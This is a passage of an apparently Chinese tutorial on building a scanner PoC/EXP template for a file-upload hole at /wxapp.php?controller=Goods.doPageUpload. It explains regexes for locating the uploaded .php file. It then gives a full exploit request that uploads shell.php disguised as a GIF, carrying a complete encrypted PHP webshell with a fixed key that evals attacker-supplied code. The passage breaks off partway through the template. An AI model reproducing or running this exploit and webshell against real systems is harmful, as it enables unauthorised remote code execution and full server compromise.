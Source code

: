 这里需要说一下下面的两句正则

```
"urlDir|lastbody|regex|image_o\":\".*goods\\\\/(.*?)\\\\/.*\"",
"urlDir2|lastbody|regex|image_o\":\".*goods\\\\/.*\\\\/(.*?)\""
```

因为输出的文件地址是 \/\/Uploads\/image\/goods\/2021-05-27\/0206254881620132.php 这样子的

如果写成这样

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJe1dia5p8CmDvFibaSEwrlvcmmPc45ECrov9bySnKnX1CybuXribEw4icZjg/640?wx_fmt=png)

直接调用发送 GET 请求为 %5C/image%5C/goods%5C/2021-05-27%5C/0206254881620132.php

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJeBPPgpdmohfp9ZY2ibrSLAN4FFovFT6n6Zl0NYN2Gumicx14lApPDFxsA/640?wx_fmt=png)

这种请求会返回 404

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJeaV7B78FbVqGfZiaCQWw4QUKbVc0NHYm63tXgYWo0Aib1JiaYxS0XYwKYA/640?wx_fmt=png)

所以必须将 \ 去掉，已知文件的路径除了最后的上传日期和文件名在变化，其他不变，所以前面路径可以写死，通过正则取到日期和文件名进行组合请求。

**注意：如果使用 json 编写，\ 这里必须通过两个 \\ 匹配，否则匹配不到**

"urlDir|lastbody|regex|image_o\":\".*goods\\\\/(.*?)\\\\/.*\"" 取出日期，结果为 2021-05-27

"urlDir2|lastbody|regex|image_o\":\".*goods\\\\/.*\\\\/(.*?)\"" 取出文件名 结果为 0206254881620132.php 

然后通过 "uri": "/Uploads/image/goods/{{{urlDir}}}/{{{urlDir2}}}" 请求则返回成功

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJegFEHE3y9gAdgOfXF8Alic9cxtXCFzD1L8eyWSNV2Xwp8AAvRp5xZ35w/640?wx_fmt=png)

PoC 部分写完，接下来看 EXP 部分就比较简单了，

```
"ExploitSteps": [
    "AND",
    {
      "Request": {
        "method": "POST",
        "uri": "/wxapp.php?controller=Goods.doPageUpload",
        "follow_redirect": false,
        "header": {
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
          "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "keep-alive",
          "Upgrade-Insecure-Requests": "1",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs"
        },
        "data_type": "text",
        "data": "\n------WebKitFormBoundary8UaANmWAgM4BqBSs\nContent-Disposition: form-data; name=\"upfile\"; filename=\"shell.php\"\nContent-Type: image/gif\n\n<?php\n@error_reporting(0);session_start();$key=\"e45e329feb5d925b\";$_SESSION['k']=$key;$post=file_get_contents(\"php://input\");if(!extension_loaded('openssl')){$t=\"base64_\".\"decode\";$post=$t($post.\"\");for($i=0;$i<strlen($post);$i++) {$post[$i] = $post[$i]^$key[$i+1&15];}}else{$post=openssl_decrypt($post, \"AES128\", $key);}$arr=explode('|',$post);$func=$arr[0];$params=$arr[1];class C{public function __invoke($p) {eval($p.\"\");}}@call_user_func(new C(),$params);\n?>\n\n------WebKitFormBoundary8UaANmWAgM4BqBSs--"
      },
      "ResponseTest": {
        "type": "group",
        "operation": "AND",
        "checks": [
          {
            "type": "item",
            "variable": "$code",
            "operation": "==",
            "value": "200",
```